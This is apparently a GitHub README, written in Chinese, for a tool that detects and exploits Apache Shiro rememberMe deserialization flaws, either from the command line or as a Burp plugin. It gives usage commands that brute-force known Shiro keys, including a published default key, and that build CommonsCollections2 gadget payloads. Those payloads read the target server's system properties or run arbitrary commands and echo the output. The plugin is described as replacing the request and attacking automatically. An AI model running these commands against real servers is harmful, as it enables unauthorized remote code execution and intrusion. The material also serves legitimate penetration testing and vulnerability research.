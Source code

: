 mvn package 编译

## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key
3. 支持自定义key
4. 支持作为插件导入burp

## burp插件使用方法
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160819.png)

repeater界面中右键，生成payload
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160932.png)
默认kph密钥，cc2利用链，获取信息，如果需要修改，请右键选择config
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161039.png)

生成后，会自动替换request内容，并攻击

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161129.png)


当然，这个jar包也可以直接在命令行下运行，生成rememberMe，或者检测，一切不变

自定义key检测
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/samples_web_war/ kPH+bIxk5D2deZiIxcaaaA==
```

内置100key检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```

```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar kPH+bIxk5D2deZiIxcaaaA== CommonsCollections2 XraySysProp
```

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
